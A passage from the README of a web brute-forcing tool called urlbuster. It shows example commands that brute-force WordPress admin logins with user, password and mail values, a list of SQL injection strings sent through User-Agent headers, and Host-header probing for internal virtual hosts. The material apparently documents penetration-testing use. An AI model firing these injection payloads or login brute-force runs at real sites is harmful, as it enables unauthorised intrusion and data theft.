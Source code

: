 ```bash
    'user=somename1' \
    'user=somename2' \
    'user=somename3' \
    'pass=somepass1' \
    'pass=somepass2' \
    'pass=somepass3' \
    'mail=some@mail1.tld' \
    'mail=some@mail2.tld' \
    'mail=some@mail3.tld' \
    'submit=yes' \
  http://www.domain.tld/wp-admin/
```
#### Useragent SQL injections
```bash
$ urlbuster \
  -W /path/to/wordlist.txt \
  --code 5.. \
  --method GET POST \
  --mheader \
    "User-Agent: ;" \
    "User-Agent: ' or \"" \
    "User-Agent: -- or #" \
    "User-Agent: ' OR '1" \
    "User-Agent: ' OR 1 -- -" \
    "User-Agent: \" OR 1 = 1 -- -" \
    "User-Agent: '='" \
    "User-Agent: 'LIKE'" \
    "User-Agent: '=0--+" \
    "User-Agent:  OR 1=1" \
    "User-Agent: ' OR 'x'='x" \
    "User-Agent: ' AND id IS NULL; --" \
  http://www.domain.tld/
```
#### Find potential vhosts
```bash
$ urlbuster \
  -w / \
  --method GET POST \
  --mheader \
    "Host: internal1.lan" \
    "Host: internal2.lan" \
    "Host: internal3.lan" \
    "Host: internal4.lan" \
    "Host: internal5.lan" \
    "Host: internal6.lan" \
  http://10.0.0.1
```


## :lock: [cytopia](https://github.com/cytopia) sec tools
